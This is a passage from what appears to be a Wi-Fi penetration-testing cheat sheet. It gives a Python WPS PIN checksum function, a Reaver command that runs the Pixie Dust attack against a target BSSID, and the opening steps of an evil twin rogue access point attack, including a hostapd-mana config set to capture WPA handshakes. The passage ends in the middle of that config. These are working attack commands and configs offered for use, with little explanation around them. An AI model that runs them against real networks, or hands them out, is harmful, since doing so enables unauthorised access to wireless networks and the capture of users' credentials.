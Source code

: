 4. To calculate the checksum:
   Python snippet:

5. ```python
   def wps_checksum(pin):
       accum = 0
       while pin:
           accum += 3 * (pin % 10)
           pin //= 10
           accum += pin % 10
           pin //= 10
       return (10 - accum % 10) % 10
   
   pin7 = 1234567
   checksum = wps_checksum(pin7)
   print(f"WPS PIN: {pin7}{checksum}")
   ```

⚡ Speeding It Up with Pixie Dust

If the target is vulnerable to the **Pixie Dust attack** (static PIN generation), you can force Reaver to try Pixie:

`reaver -i wlan0mon -b <BSSID> -c <channel> -K 1 -vv`

---

## 📶 6. Rogue AP / Evil Twin WPA2 [Downgrading from WPA3 OR WPA2/Enterprise Attacks]

###### First gather information about the AP you wish to mimic:

```bash
    ESSID 
    BSSID of FC:7A:2B:88:63:EF
    WPA (TKIP/CCMP) and WPA2 (TKIP/CCMP)
    PSK
    channel 1
#Information such as this can be determined from a PCAP

#Ensure that the tool is installed 
sudo apt install hostapd-mana
```

#### Create a hostapd mana config

Create a `hostapd.conf` file:

###### WPA2 ONLY

```bash
#WPA2 EXAMPLE
#example Hostapd-mana config
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
#mana_wpaout=/home/kali/mostar.hccapx


----
```